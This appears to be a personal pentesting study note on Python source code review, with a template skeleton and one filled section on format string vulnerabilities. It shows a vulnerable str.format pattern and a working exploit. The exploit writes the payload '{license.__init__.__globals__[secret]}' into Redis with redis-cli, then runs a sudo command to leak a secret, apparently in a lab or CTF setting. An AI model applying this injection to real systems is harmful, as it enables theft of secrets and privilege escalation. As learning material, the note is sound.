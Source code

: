 ```yaml
---
creation date: May 19th 2023
last modified date: May 19th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Python Source Code Review]]  
___

## Description:  

### Eval


### Format String Exploit
https://podalirius.net/en/articles/python-format-string-vulnerabilities/

Look for curly brackets in source code:
```
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```
you need to use the correct class (not self like in the link above).

In this specific example, the script was pulling from a redis database, so the exploit was set there with `{license.__init__.__globals__[secret]}`:

```
/usr/bin/redis-cli -s /var/run/redis/redis.sock HSET test username "{license.__init__.__globals__[secret]}"

sudo /usr/bin/license -p test
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: May 19th 2023 (09:53 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

